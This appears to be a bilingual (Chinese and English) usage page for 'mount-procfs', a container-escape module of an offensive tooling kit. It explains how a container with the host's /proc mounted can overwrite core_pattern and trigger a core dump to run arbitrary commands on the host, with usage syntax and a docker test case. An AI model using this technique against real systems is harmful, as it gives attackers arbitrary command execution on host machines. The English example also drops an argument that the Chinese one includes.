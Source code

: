 # Exploit: mount-procfs

自动化逃逸挂载宿主机/proc目录的容器。

该脚本将用户指定的shell命令指向宿主机`/sys/kernel/core_pattern`文件，在容器空间通过segment fault触发core dump，进而触发shellcode执行。

Automatic escape container which mounts host process filesystem (usually `/proc` dir).

This exploit will first point user-defined shell cmd to host `/sys/kernel/core_pattern` file, then use runtime segment fault to trigger core dump inside container, and the shell code will be executed by target host.

See Also:

* https://wohin.me/rong-qi-tao-yi-gong-fang-xi-lie-yi-tao-yi-ji-zhu-gai-lan/

## Usage
```
cdk run mount-procfs <proc-dir> "<shell-cmd>"
# after exploit, the target host will execute user-specified commands in <shell-cmd> arg.
```

## Example

测试案例

1. 宿主机启动测试容器，挂载宿主机的procfs，尝试逃逸当前容器。`docker run -v /root/cdk:/cdk -v /proc:/mnt/host_proc --rm -it ubuntu bash`
2. 容器内部执行 `./cdk run mount-procfs /mnt/host_proc "touch /tmp/exp-success"`
3. 宿主机中出现`/tmp/exp-success`文件，说明exp已经成功执行，攻击者可以在宿主机执行任意命令。

Testing Case

1. run a container in host `docker run -v /root/cdk:/cdk -v /proc:/mnt/host_proc --rm -it ubuntu bash`, try to escape this container using CDK.
2. attach into the container and execute `./cdk run mount-procfs "touch /tmp/exp-success"`
3. back to the host, check `/tmp/exp-success` file exists, which means our shell cmd was executed successfully. by modifying `<shell-cmd>` arg you can exec any cmd you want in target host.

![](https://static.cdxy.me/20201124172505_3V7TYB_Screenshot.jpeg)
